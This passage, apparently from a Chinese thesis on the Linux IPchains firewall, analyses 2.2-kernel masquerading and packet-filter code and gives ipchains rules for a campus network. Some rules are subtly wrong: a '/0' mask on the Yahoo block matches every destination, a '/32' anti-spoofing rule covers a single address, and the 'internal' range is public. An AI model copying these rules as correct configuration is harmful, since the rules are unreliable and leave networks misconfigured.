- 9. **output**：此链核对出去的包的详细信息，符合则让它通过。

##### 4.3 IPchains 防火墙实现技术分析

防火墙的核心功能（包过滤、伪装、负载均衡）在 IP 层实现，其余大部分功能属于应用层实现（VPN 除外。因为利用了封装机制，很难说究竟在哪层）。尽管说核心功能在 IP 层实现，但在 IPchains 中实际上只是这些功能函数（call_in_firewall()、call_fw_firewall()、call_out_firewall()、ip_fw_masquerade()、及 ip_fw_demasquerade() 等）在网络层被调用，真正完成这些功能时也用到了上层协议（TCP/UDP/ICMP）的头信息（如根据端口、flag 标志、ICMP 类型进行过滤等）。

Linux 网络层采用统一的缓冲区结构 skbuff（include/skbuff.h）。底层从网络设备接收到数据帧后，分配一块内存，然后将数据整理成 skbuff 的结构。在网络协议处理的时候，数据均以 skbuff 的形式在各层之间传递、处理。一个个单独的 skbuff 被组织成双向链表的形式。skbuff 的强大功能在于它提供了众多指针，可以快速地定位协议头位置；它同时也保留了许多数据信息（如使用的网络设备等），以便协议层根据需要灵活调用。

IP 协议层有三个关键函数：ip_rcv()、ip_forward()、ip_output()。分别处理 IP 层的接收、转发和发送工作。防火墙的功能函数将在此三个函数中调用。

###### 1. 功能实现分析

### (1) 网络地址转换（NAT）

简单地讲，网络地址转换（NAT）是将一个（或一组）IP 地址转换成另一个（或一组）IP 地址。由于网络地址的缺乏和出于安全等因素的考虑，许多公司和机构采用了私有 IP 地址（RFC1918）来建立自己的内部网络，但为了实现与 Internet 的互连，必须对外表现为合法的 IP。通过带有 NAT 功能的路由器或防火墙，便可实现私有与合法 IP 的转换。概念上，NAT 可分为静态 NAT（static address translation）和动态 NAT（dynamic address translation）：

静态 NAT——私有 IP 与合法 IP 之间是一一映射关系，每一个内部 IP 都有一个外部 IP 与之对应，系统通过维持一张固定的映射表来实现此种功能。

Linux 中，在 2.2.4 版本中曾有专门的一部分处理静态的地址转换，并用相应的应用层工具 ipnatadm 来管理。但到了 2.2.13 内核中，无论是文件还是相关函数都有了非常大的改变。与静态地址转换相关的文件只有 /ipv4/ip_nat_dumb.c，其中只有 ip_do_nat() 一个函数。此函数在 ip_forward() 和 ip_output() 中被调用，其作用是修改转发和发送的包的源地址和目的地址（仅此功能而已）。

动态 NAT——动态地决定外部与内部的 IP 地址之间的映射关系。此时可用的合法 IP 数往往少于内部网络的主机数，极端的情况便是 Linux 中的 IP 伪装（多对一的映射）。对实际的应用来说，此时仅仅改变 IP 地址已经不够，必须同时利用 TCP/UDP 的端口号来实现。

伪装功能相关文件有（均在 /ipv4 目录）：

```text
ip_masq.c         ip_masq_app.c      ip_masq_autofw.c
ip_masq_cuseeme.c ip_masq_ftp.c      ip_masq_irc.c
ip_masq_mfw.c     ip_masq_mod.c      ip_masq_portfw.c
ip_masq_quake.c   ip_masq_raudio.c   ip_masq_user.c
ip_masq_vdolive.c

头文件有：
#include <net/ip_masq.h>
#include <linux/ip_masq.h>
#ifdef CONFIG_IP_MASQUERADE_MOD
#include <net/ip_masq_mod.h>
#endif
```

其中最主要的文件是 ip_masq.c，它定义了对应用层的接口和实际的地址伪装处理过程，其余文件大多是根据专门应用的扩展。流程为（没有结合包过滤）：

当 IP 层接收到信息（ip_rcv()）以后，在确定信息准确无误后，查路由。伪装的包和去往防火墙本身的包的目的地址均是防火墙的对外地址，IP 层将用 ip_local_deliver() 进行处理，其中便调用了 ip_fw_demasquerade()。解伪装会将真正的目的地址和端口恢复出来，经过再次查路由，如果是发往本地的包，则交给相应的上层去处理（tcp_ipv4_rcv、udp_rcv、raw_rcv 等），否则调用 ip_forward()，ip_fw_masquerade() 则在 ip_forward() 中被调用。

具体算法：

公开地址与内部地址的映射表采用的数据结构是 ip_masq（在 /include/net/ip_masq.h 中定义），其格式为：

```c
struct ip_masq {
struct list_head m_list, s_list, d_list; // hashed doubly-linked list heads
atomic_t refcnt; // reference count
struct timer_list timer; // Expiration timer
/**************************************/
以下几个是最重要的参数，分别为所用的协议(protocol)，源、目的地址(saddr，daddr)，源、目的端口(sport，dport)，经伪装后的地址、端口(maddr，mport)。
/**************************************/
__u16 protocol; // Which protocol are we talking?
__u16 sport, dport, mport; // src, dst & masq ports
__u32 saddr, daddr, maddr; // src, dst & masq addresses
/*************************************/
struct ip_masq_seq out_seq, in_seq;
struct ip_masq_app *app; // bound ip_masq_app object
void *app_data; // Application private data
struct ip_masq *control; // Master control connection
atomic_t n_control; // Number of "controlled" masqs
unsigned flags; // status flags
unsigned timeout; // timeout
unsigned state; // state info
struct ip_masq_timeout_table *timeout_table;
};
```

因为正常情况下 Linux 不会用到 32K 以上的端口号，负责伪装的程序把 61000~65096 范围的端口用作伪装，所以缺省情况下同时支持的最大伪装数是 4096 个。当然可以通过修改源程序来更改，相关定义为：

```c
#define PORT_MASQ_BEGIN 61000
#define PORT_MASQ_END (PORT_MASQ_BEGIN+4096)
```

伪装部分在 IP 层被调用，它为 IP 层提供了四个函数作为调用接口：

```c
int ip_fw_masquerade(struct sk_buff **, __u32 maddr); // tcp、udp 协议的伪装
int ip_fw_demasquerade(struct sk_buff **); // tcp、udp 协议的解伪装
int ip_fw_masq_icmp(struct sk_buff **, __u32 maddr); // icmp 协议的伪装
int ip_fw_unmasq_icmp(struct sk_buff *); // icmp 协议的解伪装
```

我着重分析 ip_fw_masquerade：

因为只有从内部网到外部网需要伪装，所以 ip_fw_masquerade 的调用出现在 ip_forward() 函数中。ip_forward() 的函数流程为：

- 1. 因为 ip_forward() 接收的参数是一个 skbuff，它首先利用 skbuff 的指针，把 IP 头找出：

```c
struct iphdr *iph; // Our header
iph = skb->nh.iph;
```

- 2. 因为 ip_forward() 由 ip_rcv() 调用，而在 ip_rcv() 中已查过了路由，此处只需利用 skbuff 的指针定位路由信息即可：

```c
struct rtable *rt; // Route we use
rt = (struct rtable*)skb->dst;
```

- 3. 如果此 IP 包的生存时间（ttl）已到，则丢弃。

```c
if (iph->ttl <= 1)
    goto too_many_hops;
```

- 4. 如果在选项中指定了严格的源路由功能（strict source routing），且此处无法达到，也丢弃：

```c
if (opt->is_strictroute && rt->rt_dst != rt->rt_gateway)
    goto sr_failed;
```

- 5. 如果指定了伪装功能，且上层协议是 ICMP，则在此处处理一部分，且跳过后面的包过滤处理：

```c
#ifdef CONFIG_IP_MASQUERADE
if (!(IPCB(skb)->flags & IPSKB_MASQUERADED)) {
    if (iph->protocol == IPPROTO_ICMP) {
        ......
        fw_res = ip_fw_masq_icmp(&skb, maddr);
        if (fw_res)
            // ICMP matched - skip firewall
            goto skip_call_fw_firewall;
        ......
    }
}
#endif
```

- 6. 如果上一步的前提不成立，则要经过一次包过滤：

```c
fw_res = call_fw_firewall(PF_INET, dev2, iph,
                          NULL, &skb);
```

- 7. 我们知道，在当前版本中，包过滤与伪装功能在许多地方是紧密联系在一起的，如采用同样的配置工具 ipchains、同样的配置接口 setsockopt()，其中是否启动伪装的标志也在防火墙的 chains 中，即如果你指定了 `ipchains -A forward -j MASQ`，则 call_fw_firewall() 会返回 FW_MASQUERADE，如果这样，程序将进行到调用 ip_fw_masquerade() 的地方：

```c
skip_call_fw_firewall:
......
if (maddr == 0)
    maddr = inet_select_addr(dev2, rt->rt_gateway,
                             RT_SCOPE_UNIVERSE);
ip_fw_masquerade(&skb, maddr);
......
```

- 8. 因为伪装可能改变了 skbuff 的一些信息，此时要重新定位一下 IP 头及其选项：

```c
iph = skb->nh.iph;
opt = &(IPCB(skb)->opt);
```

- 9. 因为转发的数据总是要送出的，紧接着会调用 call_out_firewall()，并把数据送出去。

ip_fw_demasquerade 的调用出现在 ip_local_deliver() 中：

- 如果需要，首先重组 IP 包：

```c
if (sysctl_ip_always_defrag == 0 &&
    (iph->frag_off & htons(IP_MF | IP_OFFSET))) {
    skb = ip_defrag(skb);
    if (!skb)
        return 0;
    iph = skb->nh.iph;
}
```

- 然后调用 ip_fw_demasquerade：

```c
ret = ip_fw_demasquerade(&skb);
```

- 再次调用路由查找，根据真正的 IP 来发送此包：

```c
ip_route_input(skb, iph->daddr, iph->saddr,
               iph->tos, skb->dev)
```

- 根据路由发往上层或是转发。

下面我说明一下伪装是怎么工作的，即 ip_fw_masquerade 的流程：

因为经过伪装后的地址是防火墙连接的公网的 IP，这个值（maddr）已通过参数送到 ip_fw_masquerade 函数中：

```c
int ip_fw_masquerade(struct sk_buff **skb_p, __u32 maddr)
```

其主要工作便是分配空闲端口，并改变 IP 头。

①将 skbuff 的 h.raw 指针指向 IP 的数据部分（一般是 TCP、UDP 的头），并得到数据部分长度和传输层协议的数据偏移部分：

```c
h.raw = (char*)iph + iph->ihl * 4;
size = ntohs(iph->tot_len) - (iph->ihl * 4);

doff = proto_doff(iph->protocol, h.raw, size);
// doff holds transport protocol data offset
```

②根据上层协议（iph->protocol）及需要，做一些校验和的工作。

③检查是否已经有了合适的映射关系，有则返回相应的 ip_masq 结构：

```c
struct ip_masq *ms;
ms = ip_masq_out_get_iph(iph);
```

ip_masq_out_get_iph（最终是 __ip_masq_out_get）会查找以 `&ip_masq_s_table[]` 开头的结构，检查是否已有相关的映射：

```c
if (d_addr == ms->daddr
    && d_port == ms->dport
    && s_addr == ms->saddr
    && s_port == ms->sport
    && protocol == ms->protocol
    && ((ms->flags &
         (MASQ_DADDR_PASS | MASQ_DPORT_PASS
          | IP_MASQ_F_NO_SADDR | IP_MASQ_F_NO_SPORT))
        == 0))
```

④如果还没有建立映射，则新建：

```c
ms = ip_masq_new(iph->protocol, maddr, 0,
                 iph->saddr, h.portp[0],
                 iph->daddr, h.portp[1], 0);
ip_masq_new 将负责寻找合适的端口。
```

⑤现在，已经有了合适的 ip_masq 结构，即映射关系。则开始改头信息（地址和端口都改）：

```c
iph->saddr = ms->maddr;
h.portp[0] = ms->mport;
```

⑥头变了，当然校验和又要重算一遍。至此，过程结束。

因为 ICMP 协议没有端口的概念，所以只能利用 ICMP 协议头中的 ID 项作为源端口使用，其余流程大同小异。伪装模块留给上层的配置接口与包过滤相同，都是利用 setsocket 系统调用。这样可以保证系统总的系统调用数目和名称保持稳定。对于我们的专用系统来说，也可以采用增添新的系统调用的方式以增加处理的便利：```c
int setsockopt(int socket, IPPROTO_IP, int command, void *data, int length);
```

伪装作为防火墙规则链中的行动项出现（MASQ）。

如果某个规则匹配后行动项是 MASQ，则调用伪装功能（如上文）。

补充说明：算法的难度主要在于动态映射表的维护（包括端口号的分配、识别及超时处理等）。还有就是在处理不同协议时会有额外的问题，如有的应用层协议需要对内建立连接，Linux 对有此类要求的协议均做了相应处理。

####### （2）包过滤

包过滤在理论上是在 IP 层工作，可为了完成丰富的功能，必须同时利用其他层的信息，如用于端口过滤、SYN 过滤、设备相关过滤时。

Linux 内核中有三条内置的规则链（input chain、forward chain、output chain），分别对应接收检测、转发检测和发送检测（内置链不可删除），每一条 chain 包含一系列过滤规则以及链的缺省策略。

其实现过程如下：

- 1. 在不同检测点进入相应过滤链；
- 2. 顺序检查每一条过滤规则，找出与之匹配的规则（ACCEPT、REJECT、DENY、MASQ、REDIRECT、RETURN）；
- 3. 当遇到第一条匹配的规则时采取以下行动：
  - 将规则应用于此数据包；
  - 每条规则都包含有 packet 和 byte 数的计数器，当匹配时，此计数器加一；
  - （用 `ipchains -L -v` 可察看通过每条链的包与比特数。）；
  - 如果设置记录功能，则记录。
- 4. 当没有规则匹配时，采用链的缺省策略。

相关文件为：ipfw.c、ipfw.h（IP 包过滤功能），firewall.c、firewall.h（通用包过滤功能接口）。

具体流程见上节的流程图。

结合代码来说：

`ip_rcv()` 是 IP 层的接收函数，它首先检查：

- 长度是否正确；
- 版本号是否正确（4？6？）；
- 校验和是否正确。

```c
if (skb->len < sizeof(struct iphdr))
    goto inhdr_error;
if (iph->ihl < 5 || iph->version != 4 || ip_fast_csum
    ((u8 *)iph, iph->ihl) != 0)
    goto inhdr_error;
```

在确定这些信息无误后，则调用包过滤检测：

```c
fwres = call_in_firewall(PF_INET, dev, iph, &rport, &skb);
```

`fwres` 返回的便是匹配出来的规则；如果不接受，则立即丢弃：

```c
if ((fwres < FW_ACCEPT && fwres != FW_REJECT))
    goto drop;
```

否则查找路由：

```c
ip_route_input(skb, iph->daddr, iph->saddr, iph->tos, dev)
```

如果 IP 包有其他选项（`iph->ihl > 5`），则需多加一段处理。

此时路由信息已包括在了 skbuff 数据结构的 dst 项中，紧接着调用 `skb->dst->input(skb)` 继续处理。

对发往本地高层协议的包，则实际调用了 `ip_local_deliver()`；对转往其他机子的包，则实际调用 `ip_forward()` 处理。

值得注意的是，经过伪装的包在返回时，其目的 IP 是防火墙的 IP，经路由后，也送入 `ip_local_deliver()` 处理；在 `ip_local_deliver()` 内部先解伪装，然后再查一次路由，发往本地的直接送往高层，否则依然调用 `ip_forward()`。

`ip_forward()` 中则包含了 `call_fw_firewall()` 的调用。

在发送到底层的时候（`ip_output`，最终是 `ip_queue_xmit`），调用了 `call_out_firewall()`。

整个包过滤部分的初始化工作在 `ip_fw.c` 中有定义：`ip_fw_init()`。

查看 `call_in_firewall`、`call_fw_firewall`、`call_out_firewall` 的定义后发现，其核心过程都在于 `ip_fw_check()` 这个函数，它完成了数据包与规则的实际匹配。

`ip_fw_check()` 函数分析：

防火墙的规则链由 `ip_chain` 数据结构（`ip_fw.c`）描述，其中包含了指向链中第一条规则的指针和链的缺省策略。

每个规则由 `ip_fwkernel` 数据结构（`ip_fw.c`）描述，其中的重要一项是 `ip_fw` 数据结构（`ip_fw.h`）：

```c
struct ip_fw
{
    struct in_addr fw_src, fw_dst;   /* Source and destination IP addr */
    struct in_addr fw_smsk, fw_dmsk; /* Mask for src and dest IP addr */
    __u32 fw_mark;                   /* ID to stamp on packet */
    __u16 fw_proto;                  /* Protocol, 0 = ANY */
    __u16 fw_flg;                    /* Flags word */
    __u16 fw_invflg;                 /* Inverse flags */
    __u16 fw_spts[2];                /* Source port range. */
    __u16 fw_dpts[2];                /* Destination port range. */
    __u16 fw_redirpt;                /* Port to redirect to. */
    __u16 fw_outputsize;             /* Max amount to output to NETLINK */
    char fw_vianame[IFNAMSIZ];       /* name of interface "via" */
    __u8 fw_tosand, fw_tosxor;       /* Revised packet priority */
};
```

其中包含了要匹配的所有信息（源地址、目的地址、源端口、目的端口、协议、flag 标志、接口名等），尽管时间信息并没有加进去，但我们可以通过不同时间更换不同规则的策略来处理与时间有关的规则。

`ip_fw_check()` 所做的就是将每一个 IP 包与规则链中的每一条规则（实际就是 `ip_fw` 数据结构所描述的内容）按照链表的组织顺序一一比较，若匹配，则一并返回规则的行动项。

规则的修改通过 `setsockopt` 系统调用实现，其格式和命令请参看 man 文档（`man ipfw`）。

###### 2. 防火墙主机的配置

防火墙主机内安装两块网卡，操作系统采用 Redhat 7.0，内核为稳定的 2.2.17 版，请在编译内核时开启下列参数：

```text
CONFIG_EXPERIMENTAL
CONFIG_MODULES
CONFIG_NET
CONFIG_FIREWALL
CONFIG_INET
CONFIG_IP_FORWARD
CONFIG_IP_FIREWALL
CONFIG_IP_MASQUERADE

以下是选用的参数，但仍然建议开启这些参数：
CONFIG_IP_MASQUERADE_IPPORTFW
CONFIG_IP_MASQUERADE_IPAUTOFW
CONFIG_IP_MASQUERADE_ICMP
CONFIG_IP_ALWAYS_DEFRAG
CONFIG_DUMMY
CONFIG_IP_MASQUERADE_MFW
```

####### （1）配置网卡

Redhat 7.0 可以支持多种网卡，两块网卡的 I/O 地址与 IRQ 分别为 5H、400H、9H、800H。修改 `/etc/lilo.conf` 文件，在其中添加命令，则系统可自动检测并加载两块网卡：

```text
append="ether=0,0,eth0 ether=0,0,eth1"
```

这是不知道网卡的 I/O 地址和 IRQ 的做法，如果知道就最好指定：

```text
append="ether=5,0xE400,eth0 ether=9,0xE800,eth1"
```

####### （2）配置接口

在 `/etc/rc.d/rc.inet1` 文件中加入以下命令，指定两块网卡的 IP 地址、广播地址、子网掩码：

```bash
/sbin/ifconfig eth0 198.199.37.254 broadcast 198.199.37.255 netmask 255.255.255.0
/sbin/ifconfig eth1 198.168.80.254 broadcast 198.168.80.255 netmask 255.255.255.0
```

####### （3）配置路由

在 `/etc/rc.d/rc.inet1` 文件中加入以下命令，配置路由信息：

```bash
/sbin/route add -net 198.199.37.0 netmask 255.255.255.0 eth0
/sbin/route add -net 198.168.80.0 netmask 255.255.255.0 eth1
```

配置完成后，用 ping、netstat 等网络工具检测网络接口、路由表是否正常。

##### 4.4 基于校园网的 IPchains 的规则设立

假设网络环境如下：校园内通过网络机房上网，即网络机房为整个校园网的唯一出口，网络拓扑如下：

```text
+----------------+
|   内部网段      | eth1      eth0   光纤
| [firewall] <=================> Internet
| 198.168.80.0   |
+----------------+

eth0: 198.199.37.254
eth1: 198.168.80.254
```

- 假设在内部网中存在以下服务器：
  - dns 服务器：dns.yourdomain.com，由 firewall 兼任
  - www 服务器：www.yourdomain.com <http://www.yourdomain.com>
    - 198.168.80.11
  - ftp 服务器：ftp.yourdomain.com <ftp://ftp.yourdomain.com>
    - 198.168.80.12
  - bbs 服务器：bbs.yourdomain.com，198.168.80.13
  - email 服务器：mail.yourdomain.com，198.168.80.14

实现步骤如下：

1. 在 `/etc/rc.d/` 目录下用 `touch` 命令建立 `rc.ipfwadm` 文件，执行 `chmod u+x rc.ipfwadm` 以更改文件属性，编辑 `/etc/rc.d/rc.local` 文件，在末尾加上 `/etc/rc.d/rc.ipfwadm` 以确保开机时能自动执行该脚本。
2. 刷新所有的 IPchains：`/sbin/ipchains -F`
3. 设置默认策略  
   根据安全需要应将默认策略都设置为禁止：
   - `/sbin/ipchains -P input DENY`
   - `/sbin/ipchains -P output REJECT`
   - `/sbin/ipchains -P forward REJECT`
4. 设置 WWW 包过滤  
   说明：WWW 端口为 80，采用 tcp 或 udp 协议。  
   规则为：`eth1=>` 允许所有来自 Intranet 的 WWW 包；`eth0=>` 仅允许目的为内部网 WWW 服务器的包。

```bash
# Allow www request packets from Internet clients to www servers
/sbin/ipchains -A input -p tcp -s 0.0.0.0/0 1024: -d 198.168.80.11/32 www -i eth0 -j ACCEPT
/sbin/ipchains -A input -p udp -s 0.0.0.0/0 1024: -d 198.168.80.11/32 www -i eth0 -j ACCEPT

# Allow response from Intranet www servers to request Internet clients
/sbin/ipchains -A output -p tcp -s 198.168.80.11/32 www -d 0.0.0.0/0 1024: -i eth0 -j ACCEPT
/sbin/ipchains -A output -p udp -s 198.168.80.11/32 www -d 0.0.0.0/0 1024: -i eth0 -j ACCEPT

# Allow www request packets from Intranet clients to Internet www servers
/sbin/ipchains -A output -p tcp -s 198.168.80.0/24 1024: -d 0.0.0.0/0 www -i eth0 -j ACCEPT
/sbin/ipchains -A output -p udp -s 198.168.80.0/24 1024: -d 0.0.0.0/0 www -i eth0 -j ACCEPT

# Allow www response packets from Internet www servers to Intranet clients
/sbin/ipchains -A input -p tcp -s 0.0.0.0/0 www -d 198.168.80.0/24 1024: -i eth0 -j ACCEPT
/sbin/ipchains -A input -p udp -s 0.0.0.0/0 www -d 198.168.80.0/24 1024: -i eth0 -j ACCEPT
```

在校园网中，还涉及到流量控制的问题，即限制内部用户对国际网站的访问流量，这关系到要禁止对某些网站的访问。例如禁止内部用户对 `www.yahoo.com` 的访问：

```bash
/sbin/ipchains -A output -p tcp -s 198.168.80.0/24 1024: -d 204.71.200.68/0 www -i eth0 -j REJECT
/sbin/ipchains -A output -p udp -s 198.168.80.0/24 1024: -d 204.71.200.68/0 www -i eth0 -j REJECT
```

###### （4）设置 FTP 包过滤

说明：ftp 端口为 21，ftp-data 端口为 20，均采用 tcp 协议。规则为：`eth1=>` 允许所有来自 Intranet 的 ftp、ftp-data 包；`eth0=>` 仅允许目的为内部网 ftp 服务器的包。

```bash
# Allow ftp request packets from Internet clients to Intranet ftp server
/sbin/ipchains -A input -p tcp -s 0.0.0.0/0 1024: -d 198.168.80.12/32 ftp -i eth0 -j ACCEPT
/sbin/ipchains -A input -p tcp -s 0.0.0.0/0 1024: -d 198.168.80.12/32 ftp-data -i eth0 -j ACCEPT

# Allow ftp response packets from Intranet ftp server to Internet clients
/sbin/ipchains -A output -p tcp -s 198.168.80.12/32 ftp -d 0.0.0.0/0 1024: -i eth0 -j ACCEPT
/sbin/ipchains -A output -p tcp -s 198.168.80.12/32 ftp-data -d 0.0.0.0/0 1024: -i eth0 -j ACCEPT

# Allow ftp request packets from Intranet clients to Internet ftp servers
/sbin/ipchains -A output -p tcp -s 198.168.80.0/24 1024: -d 0.0.0.0/0 ftp -i eth0 -j ACCEPT
/sbin/ipchains -A output -p tcp -s 198.168.80.0/24 1024: -d 0.0.0.0/0 ftp-data -i eth0 -j ACCEPT

# Allow ftp response packets from Internet ftp servers to Intranet clients
/sbin/ipchains -A input -p tcp -s 0.0.0.0/0 ftp -d 198.168.80.0/24 1024: -i eth0 -j ACCEPT
/sbin/ipchains -A input -p tcp -s 0.0.0.0/0 ftp-data -d 198.168.80.0/24 1024: -i eth0 -j ACCEPT
```

###### （5）设置 Telnet 包过滤

说明：telnet 端口为 23，采用 TCP 协议。规则为：`eth1=>` 允许所有来自 Intranet 的 telnet 包；`eth0=>` 仅允许目的为 bbs 服务器的包。为了提高网络安全性，禁止所有对 firewall 的 telnet 请求。

```bash
# Allow telnet request packets from Internet clients to Intranet bbs server
/sbin/ipchains -A input -p tcp -s 0.0.0.0/0 1024: -d 198.168.80.13/32 telnet -i eth0 -j ACCEPT

# Allow telnet response packets from bbs server to Internet clients
/sbin/ipchains -A output -p tcp -s 198.168.80.13/32 telnet -d 0.0.0.0/0 1024: -i eth0 -j ACCEPT

# Allow telnet request packets from Intranet clients to Internet telnet servers
/sbin/ipchains -A output -p tcp -s 198.168.80.0/24 1024: -d 0.0.0.0/0 telnet -i eth0 -j ACCEPT

# Allow telnet response packets from Internet telnet servers to Intranet clients
/sbin/ipchains -A input -p tcp -s 0.0.0.0/0 telnet -d 198.168.80.0/24 1024: -i eth0 -j ACCEPT
```

###### （6）设置 SMTP 包过滤

说明：smtp 端口为 25，采用 tcp 协议。规则为：`eth1=>` 允许所有来自 Intranet 的 smtp 包；`eth0=>` 仅允许目的为 email 服务器的 smtp 请求。

```bash
# Allow smtp request packets from Internet smtp servers to Intranet email server
/sbin/ipchains -A input -p tcp -s 0.0.0.0/0 1024: -d 198.168.80.14/32 smtp -i eth0 -j ACCEPT

# Allow smtp response packets from Intranet email server to Internet smtp servers
/sbin/ipchains -A output -p tcp -s 198.168.80.14/32 smtp -d 0.0.0.0/0 1024: -i eth0 -j ACCEPT

# Allow smtp request packets from Intranet clients to Internet smtp servers
/sbin/ipchains -A output -p tcp -s 198.168.80.0/24 1024: -d 0.0.0.0/0 smtp -i eth0 -j ACCEPT

# Allow smtp response packets from Internet smtp servers to Intranet clients
/sbin/ipchains -A input -p tcp -s 0.0.0.0/0 smtp -d 198.168.80.0/24 1024: -i eth0 -j ACCEPT
```

###### （7）设置 POP-3 包过滤

说明：POP-3 端口为 110，采用 tcp 或 udp 协议。规则为：`eth1=>` 允许所有来自 Intranet 的 POP-3 包；`eth0=>` 允许所有目的为 Intranet（email server 除外）的 POP-3 包。

```bash
# Allow pop-3 request packets from Intranet clients to Internet pop-3 servers
/sbin/ipchains -A output -p tcp -s 198.168.80.0/24 1024: -d 0.0.0.0/0 pop-3 -i eth0 -j ACCEPT
/sbin/ipchains -A output -p udp -s 198.168.80.0/24 1024: -d 0.0.0.0/0 pop-3 -i eth0 -j ACCEPT

# Allow pop-3 response packets from Internet pop-3 servers to Intranet clients (except email server)
/sbin/ipchains -A input -p tcp -s 0.0.0.0/0 pop-3 -d 198.168.80.0/24 1024: -i eth0 -j ACCEPT
/sbin/ipchains -A input -p udp -s 0.0.0.0/0 pop-3 -d 198.168.80.0/24 1024: -i eth0 -j ACCEPT
```

###### （8）设置 Domain 包过滤

说明：domain 端口为 53，采用 tcp 或 udp 协议。规则为：允许所有来自 Intranet 和 Internet 的 domain 请求。我在查看资料时，发现 domain 的请求端口都是大于 1100 的，但是找不到相关的解释。

```bash
# Allow domain request packets from Intranet clients to Internet domain servers
/sbin/ipchains -A output -p tcp -s 198.168.80.0/24 1100: -d 0.0.0.0/0 domain -i eth0 -j ACCEPT
/sbin/ipchains -A output -p udp -s 198.168.80.0/24 1100: -d 0.0.0.0/0 domain -i eth0 -j ACCEPT

# Allow domain response packets from Internet domain servers to Intranet clients
/sbin/ipchains -A input -p tcp -s 0.0.0.0/0 domain -d 198.168.80.0/24 1100: -i eth0 -j ACCEPT
/sbin/ipchains -A input -p udp -s 0.0.0.0/0 domain -d 198.168.80.0/24 1100: -i eth0 -j ACCEPT
```

###### （9）设置 ICMP 包过滤

说明：ICMP 包通常用于网络测试等，故允许所有的 ICMP 包通过。

```bash
# Define icmp packets
/sbin/ipchains -A input -p icmp -j ACCEPT
```

###### （10）禁止源地址欺骗和其他不合法地址

说明：在应用中，还应禁止声称是由此处（即由内部网）而来的包，并记录在 `/var/log/messages` 中：

```bash
/sbin/ipchains -A input -i eth0 -s 198.168.80.0/32 -j DENY -l
```

在 A、B、C 类地址范围中都有一些剩余的专用 IP 地址留作 LAN 地址所用。它们不是为在因特网使用而准备的，因此路由器没有对其进行考虑，都允许有专用源地址的包通过，这是不安全的，所以应禁止。

```bash
# 禁止声称来自或到 A 类专用网络的包
/sbin/ipchains -A input -i eth0 -s 10.0.0.0/8 -j DENY
/sbin/ipchains -A input -i eth0 -d 10.0.0.0/8 -j DENY
/sbin/ipchains -A output -i eth0 -s 10.0.0.0/8 -j DENY -l
/sbin/ipchains -A output -i eth0 -d 10.0.0.0/8 -j DENY -l

# 禁止声称来自或到 B 类专用网的包
/sbin/ipchains -A input -i eth0 -s 172.16.0.0/12 -j DENY
/sbin/ipchains -A input -i eth0 -d 172.16.0.0/12 -j DENY
/sbin/ipchains -A output -i eth0 -s 172.16.0.0/12 -j DENY -l
/sbin/ipchains -A output -i eth0 -d 172.16.0.0/12 -j DENY -l

# 禁止声称来自或到 C 类专用网络的包
/sbin/ipchains -A input -i eth0 -s 192.168.0.0/16 -j DENY
/sbin/ipchains -A input -i eth0 -d 192.168.0.0/16 -j DENY
/sbin/ipchains -A output -i eth0 -s 192.168.0.0/16 -j DENY -l
/sbin/ipchains -A output -i eth0 -d 192.168.0.0/16 -j DENY -l

# 禁止畸形的广播包
/sbin/ipchains -A input -i eth0 -s 255.255.255.255 -j DENY -l
/sbin/ipchains -A input -i eth0 -s 0.0.0.0 -j DENY -l
```

如果要关闭某项服务，则可以将上面所提到的响应服务的设置去掉，则防火墙执行默认策略，即禁止通过。

通过以上步骤，我们建立了一个相对完整的防火墙。该防火墙禁止除了提供基本服务以外的包通过。但是该防火墙还有不完善的地方，比如，某些搜索引擎会打开一个小于 1024 但不常用的端口的连接，这样的包就无法通过该防火墙，从而使用户不能使用该搜索引擎。但是它提高了网络的安全性，消除了安全隐患。

## 五、交互 IPchains 的实现

##### 5.1 实现功能

虽然 IPchains 功能强大，并且有很好的灵活性，用户可以根据自己的实际需要来制定适合自己的安全策略，来保护自己的网络。但是 IPchains 的交互性较差，不能和 X Window 很好地结合，所以作者在 X Window 环境下为 IPchains 作了一个简单的界面和后台的接口，使得界面和 IPchains 命令的后台工作相结合，做到 IPchains 交互性的简单实现，目的是使用户（主要是网络管理员）能更好地使用 IPchains，不需要不断地在命令行（终端）与图形界面之间进行转换。

因为 IPchains 是 Linux 环境下的防火墙工具，所以其界面也就必须是在 Linux 下，即在 X Window 中实现，所以我选择在 Linux 下进行界面和后台接口的编程。

鉴于整个 Linux 操作系统都是由标准 C 语言编写的，我也选择 C 语言为我的编程工具，并结合 Linux 免费自带的图库 GTK/GTK+。

GTK+（GIMP Toolkit，GIMP 工具包）是一个用来创造图形用户接口的图库。GTK+ 是基于 LGPL 授权的，因此可以用 GTK+ 开发开放源代码软件、自由软件，甚至商业的、非自由的软件，并且不需要为授权或版权费花费一分钱。

GTK+ 使用一系列称为“构件”的对象来创建应用程序的图形用户接口，它提供了窗口、标签、命令按钮、开关按钮、检查按钮、无线按钮、框架、列表框、组合框、树、列表示图、笔记本、状态条等构件。可以用它们来构造非常丰富的用户界面。

我制作的界面主要实现的功能有在界面下的 IPchains 防火墙策略的添加和更改，并使添加或更改的安全策略在重启后能够生效；通过界面还可以查看日志记录，还可将日志保存在一定目录中供管理员做各项统计使用。

界面包括一个文本框和 10 个按钮，文本框用来输入管理员更改的或是添加的安全策略，在这里还可以查看默认的安全策略，也可实时地查看系统日志，便于管理员监控系统安全。

按钮包括 Editable、Log、SaveLog、Tactics、New、Close、Save、Applicate、Default 和 About。其中前五个是 GTK+ 中的检查按钮，后五个是普通按钮。

- Editable 是用来控制编辑框是否可写的，当它被按下时编辑框可进行编辑，若它处于空选状态，则编辑框只能读，不能进行写入和更改。
- Log 是用来控制系统日志文件的实时显示，它与 SaveLog 结合一起工作。SaveLog 是负责进行日志文件的保存，可保存在一特定目录内，便于管理员进行统计或进行检测时使用。
- Tactics 的作用是用来显示系统已有的安全策略，便于管理员进行更改前的分析。
- New 是用来写入新的安全策略。
- 点击 Close 可以退出 IPchains 的使用界面。
- Save 是用来保存管理员设置的安全策略，它包括 Save（清空原有策略，加入新的策略）和 Savea（保留原有策略，添加入新的安全策略），管理员可以根据实际情况使用不同的选项。
- Applicate 是用来控制安全策略的加载与生效，它会提示用户在更改或添加新的策略后，要使其生效时，重启计算机，并自动加载策略入系统内核。
- Default 是附带的一个默认策略，点击它可以使 IPchains 防火墙策略恢复到一个默认的基础值。
- About 是用来显示 IPchains 防火墙的帮助信息，即 README 文件。

##### 5.2 程序代码

由于程序比较长（约有 500 行），此处从略。具体程序代码见光盘/xiangguan/网络防火墙技术研究附录 A。

#### 六、结束语

